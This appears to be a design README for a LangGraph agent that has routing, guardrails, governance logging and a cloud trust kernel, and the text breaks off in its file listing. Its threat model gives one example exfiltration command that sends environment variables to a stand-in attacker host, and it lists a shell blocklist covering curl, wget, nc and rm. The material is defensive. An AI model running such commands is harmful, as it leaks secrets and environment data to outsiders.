

# ReAct Agent with Dynamic Model Selection -- v2

## Technology Stack

- **Orchestration**: LangGraph -- custom `StateGraph` with thin-wrapper nodes for route, call_llm, execute_tool, evaluate
- **Tool schemas + output validation**: Pydantic -- type-safe tool definitions, validated I/O schemas. (`pydantic-ai` deferred to Phase 2; Phase 1 uses raw LiteLLM responses with manual Pydantic validation where needed)
- **Security**: Defense-in-depth -- input guardrails (H3, LLM-as-judge), deterministic tool validators (Pydantic), output guardrails (PII/leakage scanning)
- **Trust kernel**: `agent/trust/` -- frozen Pydantic value objects, hexagonal ports (`typing.Protocol`), HMAC signature helpers. Zero framework dependencies. Consumed by all layers above.
- **Governance**: Four-pillar explainability -- Recording (BlackBoxRecorder), Identity (AgentFacts), Validation (GuardRailValidator), Reasoning (PhaseLogger). Implemented as horizontal services in `services/governance/`.
- **Model calls**: LiteLLM via `ChatLiteLLM` (LangChain-compatible) -- provider-agnostic, single interface for all models
- **Prompt management**: Jinja2 templates rendered via `PromptService` -- externalized prompts, logged renders, human-editable (H1)
- **Observability**: Dual -- LangSmith cloud (tracing, evaluation datasets, prompt management, online evaluation) + per-concern structured log files via `logging.json` (H4)
- **Config**: Hybrid -- `.j2` prompt templates (prose policy for LLM) + Pydantic models (structured data for Python code)
- **Deployment**: Local Docker container, traces sent to LangSmith cloud

## Architecture Overview

The system is organized as a four-layer grid. The **trust kernel** sits at the bottom: pure types, protocols, and crypto with zero framework dependencies. **Horizontal services** provide cross-cutting infrastructure including governance services. **Vertical components** contain framework-agnostic domain logic. The **orchestration layer** (LangGraph `StateGraph`) defines topology -- which nodes run in what order. Dependencies flow downward only. Cloud provider adapters implement trust kernel ports via the hexagonal pattern.

This extends the composable layering architecture from [STYLE_GUIDE_LAYERING.md](docs/STYLE_GUIDE_LAYERING.md) by adding the trust foundation as a fourth layer beneath the existing three. The four-layer rationale is documented in [FOUR_LAYER_ARCHITECTURE.md](docs/FOUR_LAYER_ARCHITECTURE.md).

```mermaid
flowchart TB
    subgraph orchestrationLayer ["Orchestration Layer (LangGraph StateGraph)"]
        ReactLoop["react_loop.py\n(topology only: nodes + edges)"]
        AgentStateDef["state.py\n(AgentState TypedDict)"]
        GuardNode["guard_input_node\n(thin wrapper)"]
        RouteNode["route_node\n(thin wrapper)"]
        CallLLMNode["call_llm_node\n(thin wrapper)"]
        ExecToolNode["execute_tool_node\n(thin wrapper)"]
        EvalNode["evaluate_node\n(thin wrapper)"]
    end

    subgraph verticalLayer ["Vertical Components (framework-agnostic domain logic)"]
        Router["router.py\nselect_model()"]
        Evaluator["evaluator.py\nclassify_outcome()\nparse_response()\ncheck_continuation()"]
        Schemas["schemas.py\nStepResult, TaskResult,\nErrorRecord, EvalRecord"]
        RoutingCfg["routing_config.py\nRoutingConfig"]
    end

    subgraph horizontalLayer ["Horizontal Services (domain-agnostic infrastructure)"]
        PromptSvc["prompt_service.py\nJinja2 rendering + logging"]
        LLMConfig["llm_config.py\nChatLiteLLM factory"]
        Guardrails["guardrails.py\ninput/output validation (H3)"]
        EvalCapture["eval_capture.py\nAI input/output recording"]
        Observability["observability.py\nper-concern logging setup"]
        BaseCfg["base_config.py\nAgentConfig, ModelProfile"]
        ToolRegistry["tools/registry.py\ntool dispatch"]
        ToolImpls["tools/shell.py, file_io.py,\nweb_search.py"]
        subgraph governanceSvc ["Governance Services"]
            BlackBox["black_box.py\nimmutable execution recording"]
            PhaseLoggerSvc["phase_logger.py\ndecision + reasoning logs"]
            AgentFactsReg["agent_facts_registry.py\nidentity card management"]
            GuardValidator["guardrail_validator.py\ndeclarative constraint specs"]
        end
        subgraph cloudAdapters ["Cloud Adapters"]
            AWSAdapters["aws_identity.py\naws_policy.py\naws_credentials.py"]
            LocalAdapter["local_provider.py"]
        end
    end

    subgraph trustKernel ["Trust Kernel (agent/trust/) -- pure types, ports, crypto"]
        CloudIdentity["cloud_identity.py\nIdentityContext, AccessDecision,\nTemporaryCredentials"]
        TrustModels["models.py\nAgentFacts, Capability, Policy,\nCloudBinding, AuditEntry"]
        TrustEnums["enums.py\nIdentityStatus"]
        TrustExceptions["exceptions.py\nTrustProviderError hierarchy"]
        TrustProtocols["protocols.py\nIdentityProvider, PolicyProvider,\nCredentialProvider"]
        ReviewSchema["review_schema.py\nReviewReport, ReviewFinding,\nCertificate, Verdict"]
        Signature["signature.py\ncompute_signature(),\nverify_signature()"]
    end

    subgraph langsmithCloud ["LangSmith Cloud"]
        Tracing["Tracing"]
        EvalDatasets["Evaluation Datasets"]
        PromptMgmt["Prompt Management"]
        OnlineEval["Online Evaluation"]
    end

    subgraph metaLayer ["Meta-Optimization (Phase 4, separate package)"]
        MetaLoop["optimizer.py\n(tunes RoutingConfig)"]
        Analytics["analysis.py\n(reads logs + eval scores)"]
        Judge["judge.py\nLLM-as-judge evaluator"]
        DriftDetect["drift.py\nscore drift detection"]
    end

    GuardNode -->|"calls"| Guardrails
    GuardNode -->|"calls"| AgentFactsReg
    RouteNode -->|"calls"| Router
    RouteNode -->|"calls"| PhaseLoggerSvc
    CallLLMNode -->|"calls"| PromptSvc
    CallLLMNode -->|"calls"| LLMConfig
    ExecToolNode -->|"calls"| ToolRegistry
    ExecToolNode -->|"calls"| BlackBox
    EvalNode -->|"calls"| Evaluator
    EvalNode -->|"calls"| PhaseLoggerSvc

    Router -->|"reads"| RoutingCfg
    Router -->|"reads"| BaseCfg
    Evaluator -->|"calls"| EvalCapture
    Evaluator -->|"reads"| Schemas

    ToolRegistry --> ToolImpls

    AWSAdapters -.->|"implements"| TrustProtocols
    LocalAdapter -.->|"implements"| TrustProtocols
    AgentFactsReg -->|"imports"| TrustModels
    AgentFactsReg -->|"imports"| Signature

    orchestrationLayer -->|"traces"| Tracing
    Judge --> Analytics
    Analytics --> MetaLoop
    DriftDetect --> Analytics
    MetaLoop -.->|"tunes thresholds"| RoutingCfg
    EvalDatasets -.->|"benchmark tasks"| MetaLoop
```



## Graph Detail: The ReAct Cycle

Each node is a thin wrapper that delegates to framework-agnostic logic in `components/` and `services/`. The graph defines topology only (Rule O1). Governance hooks (BlackBox recording, PhaseLogger decisions, AgentFacts verification) are wired into existing nodes rather than adding new nodes, keeping the graph topology minimal.



## Four-Layer Grid

The original three-layer composable grid (horizontal services, vertical components, orchestration) requires a fourth foundational layer to support the trust framework. Trust models (`AgentFacts`, `Capability`, `Policy`, signature logic) are neither horizontal services nor vertical components -- they are portable trust artifacts consumed by every layer. Placing them in a dependency-free foundation follows the DDD Shared Kernel pattern and aligns with production systems like Microsoft's Agent Governance Toolkit and the Agent Identity Protocol. Full rationale in [FOUR_LAYER_ARCHITECTURE.md](docs/FOUR_LAYER_ARCHITECTURE.md).

A component belongs in the trust kernel if it satisfies all of these criteria:

1. **Pure**: No I/O, no storage, no network, no logging. Only data models (Pydantic) and deterministic functions.
2. **Shared**: Consumed by two or more layers above. If only one service needs a type, it stays in that service.
3. **Stable**: Changes less frequently than the services that consume it.
4. **Dependency-free**: Zero imports from horizontal, vertical, orchestration, or meta-layer code.

## LangGraph State Schema

The `AgentState` is the single source of truth flowing through the graph. All nodes read from and write to this state. Defined in `orchestration/state.py` -- the only file in this layer that imports from `langgraph`.

Cumulative fields use `Annotated` reducers so that values persist and accumulate across multi-turn invocations on the same `thread_id`. Without reducers, LangGraph applies "last write wins" semantics, which would reset counters on each invocation. Append-only list fields use a custom `_append_list` reducer that deduplicates by `step_id` to prevent the exponential duplication bug documented in LangGraph's issue tracker.

```python
from typing import Annotated
from langgraph.graph import MessagesState
import operator

def _append_list(existing: list, new: list) -> list:
    """Append-only reducer. Deduplicates by step_id to prevent checkpoint reload duplication."""
    seen_ids = {item.get("step_id") or id(item) for item in existing}
    return existing + [item for item in new
                       if (item.get("step_id") or id(item)) not in seen_ids]

class AgentState(MessagesState):
    # Identity (set at invocation, read by all nodes)
    task_id: str
    task_input: str                      # original user query, explicit to avoid messages[0] dependency

    # Routing (set by route node, read by call_llm)
    selected_model: str
    routing_reason: str
    model_history: Annotated[list[dict], _append_list]  # [{step, model, tier, reason}]

    # Tracking (cumulative across multi-turn via reducers)
    step_count: Annotated[int, operator.add]
    total_cost_usd: Annotated[float, operator.add]
    total_input_tokens: Annotated[int, operator.add]
    total_output_tokens: Annotated[int, operator.add]

    # Error state (updated by evaluate node, read by route node)
    consecutive_errors: int              # reset on success (last-write-wins is correct)
    last_error_type: str                 # "retryable" | "model_error" | "tool_error" | "terminal"
    error_history: Annotated[list[dict], _append_list]  # serialized ErrorRecord dicts
    retry_count_current_step: int
    backoff_until: float | None          # Unix timestamp; route_node waits if set

    # Context management
    current_token_count: int
    truncation_applied: bool

    # Evaluation (set by evaluate node, read by should_continue)
    last_outcome: str                    # "success" | "failure" | "stall"
    reasoning_trace: Annotated[list[str], operator.add]

    # Results (appended by evaluate node, serialized by logger)
    step_results: Annotated[list[dict], _append_list]  # serialized StepResult objects

    # Caching (tool result cache, keyed by "tool_name:args_hash")
    tool_cache: dict

    # Governance correlation (set at invocation, read by governance services)
    workflow_id: str                     # for BlackBox + PhaseLogger correlation
    registered_agent_id: str             # FK into AgentFactsRegistry
    agent_facts_verified: bool           # set by guard_input_node

    # Reasoning context (set by route/evaluate, read by phase_logger hooks)
    current_workflow_phase: str          # WorkflowPhase enum value
```

## Request Context (RunnableConfig)

User identity, session metadata, per-user overrides, and trust bindings are **not** mutable agent state -- they are request context that should not change during a graph run. These live in `RunnableConfig["configurable"]` alongside `agent_config` and `routing_config`:

```python
config = {
    "configurable": {
        "agent_config": agent_config,
        "routing_config": routing_config,
        "user_id": "user_123",
        "session_id": "sess_abc",         # maps to LangGraph thread_id
        "permissions": {"tools": ["shell", "file_io"]},
        "user_max_cost_per_task": 0.50,   # overrides AgentConfig.max_cost_usd
        "agent_id": "agent_k12_writer_v1",  # FK into AgentFactsRegistry
        "trust_binding": CloudBinding(      # from trust/models
            agent_id="agent_k12_writer_v1",
            provider="aws",
            principal_mapping={"role_arn": "arn:aws:iam::123456789012:role/k12-writer"},
        ),
        "workflow_id": "wf_abc",          # correlation ID for governance artifacts
    }
}
```

Nodes read these values via `config["configurable"]["user_id"]` etc. The `eval_capture` service includes `user_id` and `task_id` in every log record for per-user analysis and data isolation. Governance services use `workflow_id` to correlate BlackBox recordings, PhaseLogger entries, and EvalRecords into a single auditable timeline.

## Dependency Rules

The four-layer architecture enforces strict dependency direction. These rules are derived from [STYLE_GUIDE_LAYERING.md](docs/STYLE_GUIDE_LAYERING.md), extended for the trust kernel per [FOUR_LAYER_ARCHITECTURE.md](docs/FOUR_LAYER_ARCHITECTURE.md), and adapted for the LangGraph orchestration pattern.

### Allowed Dependencies

| From | To | Rationale |
| --- | --- | --- |
| Orchestration | Components | Thin-wrapper nodes call domain logic (e.g., `route_node` calls `router.select_model()`) |
| Orchestration | Services | Nodes consume infrastructure (e.g., `call_llm_node` uses `prompt_service`, `llm_config`) |
| Orchestration | Trust Kernel | Thin wrappers may reference trust types for gate decisions |
| Components | Services | Domain logic consumes infrastructure (e.g., `evaluator` uses `eval_capture`) |
| Components | Trust Kernel | Domain logic reads trust types (e.g., `evaluator` reads `AgentFacts` for identity context) |
| Services | Services | Cautiously -- a service may use another (e.g., guardrails uses `prompt_service` + `llm_config`) |
| Services | Trust Kernel | Services import the models they operate on (e.g., `agent_facts_registry` imports `AgentFacts`, `compute_signature`) |
| Meta-Layer | Trust Kernel | Governance reads/writes trust models directly |
| Meta-Layer | Services | Governance calls services to persist changes (e.g., `identity_service.suspend()`) |

### Forbidden Dependencies

| From | To | What Goes Wrong |
| --- | --- | --- |
| Trust Kernel | Anything above | Kernel purity violated. `trust/` must not import `langgraph`, `langchain`, `boto3`, `litellm`, or `utils`. |
| Components | Orchestration | Domain logic becomes coupled to LangGraph. Breaks the Phase 4 fallback. |
| Services | Orchestration | Infrastructure depends on a specific framework. Impossible to reuse outside the graph. |
| Services | Components | Horizontal service gains domain awareness. Adding a new component requires modifying a service. |
| Components | Components | Creates coupling between domain modules. Only the orchestration layer knows which components exist. |

### Enforcement

Kernel purity and all forbidden-dependency rules are enforced by [agent/utils/code_analysis.py](utils/code_analysis.py) (AST-based dependency checker) and automated tests in [agent/tests/architecture/](tests/architecture/). Tests verify that `trust/` contains no I/O-ish imports and that no forbidden cross-layer imports exist.

### Framework Import Discipline

These rules keep the Phase 4 Pydantic AI fallback viable:

- **`trust/` must NOT import from any layer above.** All files in `trust/` are pure data models, protocols, and deterministic functions.
- **`components/` must NOT import from `langgraph` or `langchain`.** All files in `components/` (`schemas.py`, `routing_config.py`, `router.py`, `evaluator.py`) are framework-agnostic domain models and logic.
- **`services/` must NOT import from `langgraph` or `langchain`**, except `llm_config.py` which wraps `ChatLiteLLM`. Swapping to raw `litellm.completion()` is a one-line change per call site.
- **Node functions in `orchestration/` are thin wrappers** around framework-agnostic logic. e.g., `route_node()` calls `router.select_model(state, config)` which lives in `components/router.py` and knows nothing about LangGraph.
- **LangSmith tracing works without LangGraph** -- `@langsmith.traceable` decorators on plain functions in any layer.

## Security Architecture

The agent serves authenticated end users via a web UI with tool execution capabilities (shell, file I/O). This creates four threat categories, each addressed by a specific architectural layer. Defense-in-depth: no single layer is sufficient; all three runtime layers (input guardrail, tool validators, output guardrail) are required.

### Threat Model

| Threat Category | Example Attack | Impact |
| --- | --- | --- |
| Input threats | Prompt injection to hijack agent behavior | Agent executes attacker-controlled actions |
| Tool execution threats | Agent runs `curl attacker.com?data=$(env)` | Data exfiltration, arbitrary code execution |
| Data isolation threats | User A's context leaks into User B's response | Privacy violation, data breach |
| Economic threats | Crafting queries that force expensive model selection | Budget exhaustion, denial of service |

### Security Controls by Layer

| Control | Layer | Implementation | Phase |
| --- | --- | --- | --- |
| Input guardrail | Horizontal service + Orchestration node | `services/guardrails.py` (H3 pattern) + `guard_input_node` in graph. LLM-as-judge with small/fast model, boolean output. Rejects prompt injection, system prompt override attempts. | Phase 1 |
| Command allowlist | Horizontal service (tool layer) | Pydantic `@validator` on `ShellToolInput.command`. Allowlist: `ls`, `cat`, `head`, `tail`, `grep`, `find`, `python`, `wc`. Blocklist patterns: `rm `, `curl `, `wget `, `nc `, `sudo `. Deterministic -- no LLM bypass possible. | Phase 1 |
| Path sandboxing | Horizontal service (tool layer) | Pydantic `@validator` on `FileIOInput.path`. Resolves path and rejects anything outside `/workspace/{user_id}/`. | Phase 1 |
| Output guardrail | Horizontal service | Scans LLM response for PII patterns, API key patterns, system prompt fragments. Rule-based (regex) + LLM-based (small model, boolean check). | Phase 2 |
| User attribution in logs | Horizontal service (eval_capture) | Every `eval_capture.record()` call includes `user_id` from `RunnableConfig["configurable"]`. | Phase 1 |
| Per-user budget | Request context (RunnableConfig) | `user_max_cost_per_task` overrides `AgentConfig.max_cost_usd`. Checked by `route_node`. | Phase 3 |
| Per-user rate limiting | API layer (outside agent) | Max N tasks per user per hour. Enforced by web server middleware, not by the agent. | Phase 3 |
| Sandbox-as-tool | Infrastructure | Tool execution delegated to ephemeral sandboxes (E2B/Modal/gVisor) via API. Agent holds API keys on the host; sandbox is destroyed after each task. | Phase 3+ |

### Guardrails Service (`services/guardrails.py`)

Follows the H3 pattern from [STYLE_GUIDE_PATTERNS.md](docs/STYLE_GUIDE_PATTERNS.md). Parameterized by an `accept_condition` string; the caller defines the specific check:

```python
class InputGuardrail:
    def __init__(self, name: str, accept_condition: str):
        self.system_prompt = PromptService.render_prompt(
            "input_guardrail", accept_condition=accept_condition
        )

    async def is_acceptable(self, prompt: str, raise_exception: bool = False) -> bool:
        """Uses small/fast model. Boolean output. Logged to guards.log."""
        ...
```

The `guard_input_node` in the orchestration layer is a thin wrapper that calls this service and halts the graph on rejection. Guardrails consume `prompt_service` and `llm_config` -- this is a Services-to-Services dependency, already allowed by the dependency rules.

## Governance & Explainability

Agent explainability is a workflow-level concern: trace *what* happened, *who* acted, *what was checked*, and *why* choices were made. The governance framework organizes four complementary pillars into horizontal services, each emitting structured artifacts correlated by `workflow_id`. Together with the defense-in-depth security controls, these pillars provide both **prevention** (guardrails) and **proof** (auditable artifacts). The governance architecture is grounded in the [TrustFrameworkAnd Governance.md](TrustFrameworkAnd Governance.md) seven-layer trust framework, operationalizing Layers 3-5 (Purpose/Policy, Explainability, Observability) in code.

### Pillar 1: Recording -- What Happened (`services/governance/black_box.py`)

Treats agent runs like aviation CVR/FDR: an immutable timeline of plans, executions, collaborators, parameter changes, and events. Enables post-incident forensics and compliance export.

```python
class EventType(str, Enum):
    TASK_STARTED = "task_started"
    STEP_PLANNED = "step_planned"
    STEP_EXECUTED = "step_executed"
    TOOL_CALLED = "tool_called"
    MODEL_SELECTED = "model_selected"
    ERROR_OCCURRED = "error_occurred"
    GUARDRAIL_CHECKED = "guardrail_checked"
    PARAMETER_CHANGED = "parameter_changed"
    TASK_COMPLETED = "task_completed"

class TraceEvent(BaseModel):
    event_id: str                        # UUID
    workflow_id: str                     # correlation with PhaseLogger + EvalRecord
    event_type: EventType
    timestamp: datetime
    step: int | None = None
    details: dict
    integrity_hash: str                  # SHA256 of previous event + this event for tamper evidence

class BlackBoxRecorder:
    def record(self, event: TraceEvent) -> None:
        """Appends to cache/black_box_recordings/{workflow_id}/trace.jsonl"""
        ...

    def export(self, workflow_id: str) -> dict:
        """Exports full recording as structured JSON for compliance audit."""
        ...

    def replay(self, workflow_id: str) -> list[TraceEvent]:
        """Reconstructs event timeline for debugging."""
        ...
```

**Storage**: `cache/black_box_recordings/{workflow_id}/trace.jsonl` -- append-only JSONL with chained integrity hashes.

**Orchestration hooks**: Every node wrapper emits a `TraceEvent` after its operation completes. The `guard_input_node` emits `TASK_STARTED` + `GUARDRAIL_CHECKED`. The `route_node` emits `MODEL_SELECTED`. The `call_llm_node` emits `STEP_EXECUTED`. The `execute_tool_node` emits `TOOL_CALLED`. The `evaluate_node` emits `TASK_COMPLETED` on final step.

### Pillar 2: Identity -- Who Did It (`services/governance/agent_facts_registry.py`)

A verifiable agent registry backed by the trust kernel's `AgentFacts` model and `signature` module. Each agent has a signed identity card declaring its capabilities, policies, and status. Integrity is enforced via HMAC-SHA256 signatures over canonical JSON.

```python
from trust.models import AgentFacts, AuditEntry
from trust.signature import compute_signature, verify_signature
from trust.enums import IdentityStatus

class AgentFactsRegistry:
    def register(self, facts: AgentFacts, registered_by: str) -> AgentFacts:
        """Signs and stores the identity card. Appends AuditEntry."""
        ...

    def verify(self, agent_id: str) -> bool:
        """Recomputes signature, checks status == active, checks valid_until."""
        ...

    def get(self, agent_id: str) -> AgentFacts: ...

    def suspend(self, agent_id: str, reason: str, suspended_by: str) -> None:
        """Sets status to suspended. Appends AuditEntry."""
        ...

    def restore(self, agent_id: str, reason: str, restored_by: str) -> None: ...

    def audit_trail(self, agent_id: str) -> list[AuditEntry]: ...

    def export_for_audit(self, agent_ids: list[str], filepath: str) -> None:
        """Exports identity cards + audit trails for compliance."""
        ...
```

**Storage**: `cache/agent_facts/{agent_id}.json` (identity card) + `cache/agent_facts/{agent_id}_audit.jsonl` (audit trail).

**Orchestration hooks**: The `guard_input_node` calls `registry.verify(agent_id)` on first entry (skipped on loop iterations via `step_count > 0` check) and sets `agent_facts_verified` in state. The `call_llm_node` attaches `registered_agent_id` to eval records for attribution.

### Pillar 3: Validation -- What Was Checked (`services/governance/guardrail_validator.py`)

Declarative `GuardRail` specifications complementing the LLM-as-judge input guardrail. Expresses validation constraints as data (not code), enabling audit export of exactly which checks ran.

```python
class FailAction(str, Enum):
    BLOCK = "block"
    WARN = "warn"
    REDACT = "redact"

class GuardRail(BaseModel):
    name: str
    description: str
    fail_action: FailAction
    severity: str                        # "critical" | "warning" | "info"

class GuardRailValidator:
    def __init__(self, guardrails: list[GuardRail]):
        self._guardrails = guardrails

    def validate(self, content: str) -> list[ValidationResult]:
        """Runs all guardrails. Returns results with pass/fail per check."""
        ...

    def get_validation_trace(self) -> list[dict]:
        """Returns structured trace of all checks for audit."""
        ...
```

**Built-in validators**: PII patterns (SSN, credit card, email, phone), API key patterns (`sk-`, `AKIA`, `ghp_`), content length limits, schema conformance. These extend the output guardrail's regex scanning (Phase 2) with a structured, auditable framework.

**Orchestration hooks**: `guard_input_node` runs input validation. Output validation runs inline in `call_llm_node` (Phase 2) or as a separate node (Phase 3+).

### Pillar 4: Reasoning -- Why (`services/governance/phase_logger.py`)

Captures *why* decisions were made: routing choices, model selection rationale, alternative options considered, confidence levels. Complements BlackBox's *what* with structured decision records.

```python
class WorkflowPhase(str, Enum):
    INITIALIZATION = "initialization"
    INPUT_VALIDATION = "input_validation"
    ROUTING = "routing"
    MODEL_INVOCATION = "model_invocation"
    TOOL_EXECUTION = "tool_execution"
    EVALUATION = "evaluation"
    CONTINUATION = "continuation"
    OUTPUT_VALIDATION = "output_validation"
    COMPLETION = "completion"

class Decision(BaseModel):
    phase: WorkflowPhase
    description: str
    alternatives: list[str]              # what else was considered
    rationale: str                       # why this option was chosen
    confidence: float                    # 0.0-1.0

class PhaseLogger:
    def start_phase(self, workflow_id: str, phase: WorkflowPhase) -> None: ...

    def log_decision(self, workflow_id: str, decision: Decision) -> None:
        """Appends to cache/phase_logs/{workflow_id}/decisions.jsonl"""
        ...

    def end_phase(self, workflow_id: str, phase: WorkflowPhase,
                  outcome: str, details: dict) -> None: ...

    def export_workflow_log(self, workflow_id: str) -> list[dict]:
        """Returns full decision trace for audit or debugging."""
        ...
```

**Storage**: `cache/phase_logs/{workflow_id}/decisions.jsonl` -- append-only JSONL.

**Orchestration hooks**: The `route_node` logs a `Decision` with the routing rationale, alternatives considered (other model tiers), and confidence. The `evaluate_node` logs a `Decision` with the outcome classification rationale. The `guard_input_node` logs a `Decision` for guardrail accept/reject reasoning.

### Governance Correlation

All four pillars share `workflow_id` as their primary correlation key. A single `workflow_id` joins:

- BlackBox trace events (what happened, in order)
- AgentFacts identity verification (who was verified)
- Validation traces (what checks ran and their results)
- PhaseLogger decisions (why each choice was made)
- EvalRecords (AI input/output with cost and latency)

Post-incident analysis joins these artifacts by `workflow_id` to reconstruct the full story: who ran, what happened, what was checked, and why each decision was made.

## Trust Kernel Detail (`agent/trust/`)

The trust kernel is the shared foundation consumed by all layers. It contains pure types, hexagonal ports, and deterministic cryptographic helpers. Zero framework dependencies, zero I/O. Full architectural rationale in [FOUR_LAYER_ARCHITECTURE.md](docs/FOUR_LAYER_ARCHITECTURE.md) and [TRUST_FRAMEWORK_ARCHITECTURE.md](docs/TRUST_FRAMEWORK_ARCHITECTURE.md).

### Module: `trust/cloud_identity.py` -- Cloud-Agnostic Value Objects

Frozen Pydantic models that normalize cloud IAM concepts. Every cloud adapter converts its native SDK responses into these provider-neutral types.

| Model | Purpose |
| --- | --- |
| `IdentityContext` | Resolved identity: provider, principal_id, display_name, account_id, roles, tags, session_expiry |
| `VerificationResult` | Outcome of identity verification: verified (bool), reason, provider, checked_at |
| `AccessDecision` | Allow/deny result from cloud IAM policy evaluation: allowed (bool), reason, evaluated_policies |
| `TemporaryCredentials` | Scoped, time-bounded credentials: provider, access_token, expiry, scope, agent_id |
| `PolicyBinding` | A single policy attached to a cloud identity: policy_id, policy_name, policy_type |
| `PermissionBoundary` | Maximum permission set: boundary_id, max_permissions |

All models use `ConfigDict(frozen=True)` for immutability.

### Module: `trust/models.py` -- Identity and Governance Data Models

The central Layer 1 data models. `AgentFacts` is the agent identity card consumed by identity services, authorization services, governance, and certification.

| Model | Purpose |
| --- | --- |
| `AgentFacts` | Agent identity card: agent_id, agent_name, owner, version, capabilities, policies, signed_metadata, metadata, status (IdentityStatus), valid_until, parent_agent_id, signature_hash |
| `Capability` | What an agent can do: name, description, parameters |
| `Policy` | Behavioral constraint: name, description, rules |
| `AuditEntry` | Change record: agent_id, action, performed_by, timestamp, details |
| `VerificationReport` | Bulk verification results: total, passed, failed, expired, failures |
| `CloudBinding` | Maps AgentFacts identity to cloud IAM primitives: agent_id, provider (aws/gcp/azure/local), principal_mapping, capability_mappings |

### Module: `trust/enums.py` -- Trust State Enumerations

| Enum | Values | Purpose |
| --- | --- | --- |
| `IdentityStatus` | `active`, `suspended`, `revoked` | Lifecycle status for an agent identity. Maps to IAM role states. |

### Module: `trust/exceptions.py` -- Cloud-Agnostic Exception Hierarchy

| Exception | Domain |
| --- | --- |
| `TrustProviderError` | Base for all cloud provider errors. Carries `provider`, `operation`, optional `original_error`. |
| `AuthenticationError` | Identity resolution or verification failed |
| `AuthorizationError` | Policy evaluation or access decision failed |
| `CredentialError` | Credential issuance, refresh, or revocation failed |
| `ConfigurationError` | Provider misconfigured or unavailable |

Consumers catch cloud-agnostic categories without importing provider-specific SDK exceptions.

### Module: `trust/protocols.py` -- Hexagonal Ports

`typing.Protocol` (PEP 544, structural subtyping) definitions so that cloud adapter classes satisfy the interface without inheriting from an ABC. All protocols are `@runtime_checkable`.

| Protocol | Methods | Consumers |
| --- | --- | --- |
| `IdentityProvider` | `get_caller_identity()`, `resolve_identity(identifier)`, `verify_identity(identity)` | `utils/cloud_providers/` adapters |
| `PolicyProvider` | `list_policies(identity)`, `evaluate_access(identity, action, resource)`, `get_permission_boundary(identity)` | `utils/cloud_providers/` adapters |
| `CredentialProvider` | `issue_credentials(agent_facts, scope)`, `refresh_credentials(credentials)`, `revoke_credentials(credentials)` | `utils/cloud_providers/` adapters |

Method signatures use `cloud_identity` types and `AgentFacts` for credential issuance. Implementation details documented in [TRUST_FOUNDATION_PROTOCOLS_PLAN.md](docs/TRUST_FOUNDATION_PROTOCOLS_PLAN.md).

### Module: `trust/review_schema.py` -- Code Review Validator Output

Structured output models for a code review validator agent. Standalone with respect to cloud IAM -- no dependency on `protocols` or `cloud_identity`.

| Model | Purpose |
| --- | --- |
| `Severity` | Enum: `critical`, `warning`, `info` |
| `Verdict` | Enum: `approve`, `request_changes`, `reject` |
| `DimensionStatus` | Enum: `pass`, `fail`, `partial`, `skipped` |
| `Certificate` | Semi-formal reasoning certificate: premises, traces, conclusion |
| `ReviewFinding` | Single violation: rule_id, dimension, severity, file, line, description, fix_suggestion, confidence, certificate |
| `DimensionResult` | Aggregated result for one validation dimension: hypotheses_tested, confirmed, killed, findings |
| `ReviewReport` | Top-level review output: verdict, statement, confidence, dimensions, gaps, validation_log, files_reviewed |

Used by the CodeReviewer agent (Phase 4) with prompts from [CodeReviewer_system_prompt.j2](prompts/CodeReviewer_system_prompt.j2) and [CodeReviewer_architecture_rules.j2](prompts/CodeReviewer_architecture_rules.j2).

### Module: `trust/signature.py` -- Cryptographic Primitives

Pure stdlib functions for tamper-evident hashing.

| Function | Signature | Purpose |
| --- | --- | --- |
| `compute_signature` | `(facts_dict: dict, secret: str) -> str` | HMAC-SHA256 over canonical (sorted-key) JSON |
| `verify_signature` | `(facts_dict: dict, secret: str, expected_hash: str) -> bool` | Recompute and constant-time compare |

These tie to `AgentFacts.signature_hash`. Changing `signed_metadata` fields triggers signature recomputation and may trigger recertification.

### Internal Dependency Structure

```
enums.py             (standalone)
exceptions.py        (standalone)
signature.py         (standalone -- pure stdlib)
review_schema.py     (standalone)
cloud_identity.py    (standalone within trust)

models.py ──► enums.py

protocols.py ──► cloud_identity.py, models.py

__init__.py ──► re-exports all of the above
```

### Cloud Provider Adapters (`utils/cloud_providers/`)

Horizontal services implementing the trust kernel's protocols via cloud SDKs:

| Adapter | Protocol | SDK |
| --- | --- | --- |
| `aws_identity.AWSIdentityProvider` | `IdentityProvider` | boto3 STS + IAM |
| `aws_policy.AWSPolicyProvider` | `PolicyProvider` | boto3 IAM |
| `aws_credentials.AWSCredentialProvider` | `CredentialProvider` | boto3 STS `assume_role` |
| `local_provider.Local*` | All three | In-memory fakes for testing |

Provider selection via `TrustProviderSettings` (pydantic-settings, `TRUST_*` env prefix) and the `get_provider()` factory in `utils/cloud_providers/__init__.py`.

## Configuration Strategy: Hybrid (Templates + Pydantic)

Two kinds of config, two formats -- each matched to its consumer:

- **Policy / routing intent** --> Jinja2 templates in `prompts/` directory, rendered via `PromptService` (H1). Two separate templates:
  - `system_prompt.j2` -- the agent's persona and behavioral instructions, rendered into the LLM system prompt.
  - `routing_policy.j2` -- routing policy prose ("prefer capable models for planning steps"), rendered and appended to the system prompt. Human-editable; the LLM follows it as advisory guidance.

- **Structured data** --> Pydantic models, split by layer:
  - `services/base_config.py` -- `AgentConfig` and `ModelProfile` (generic, horizontal). Budget caps, model profiles, context windows, cost rates. Consumed by any layer.
  - `components/routing_config.py` -- `RoutingConfig` (domain-specific, vertical). Escalation thresholds, downgrade triggers. Consumed by `components/router.py`. Directly mutable by the Phase 4 meta-optimizer.

No YAML (project has zero YAML files; implicit typing causes bugs; adds `pyyaml` dependency for no gain). No TOML for app config (awkward for arrays-of-objects; project pinned to 3.10 so no stdlib `tomllib`).

## File Structure

All new code lives under `agent/` inside the existing workspace. The directory structure reflects the four-layer grid:

```
agent/
  trust/                                 # TRUST KERNEL: pure types, ports, crypto
    __init__.py                          # Re-exports key types (single import path)
    cloud_identity.py                    # IdentityContext, AccessDecision, TemporaryCredentials, etc.
    models.py                            # AgentFacts, Capability, Policy, AuditEntry, CloudBinding
    enums.py                             # IdentityStatus
    exceptions.py                        # TrustProviderError hierarchy
    protocols.py                         # IdentityProvider, PolicyProvider, CredentialProvider
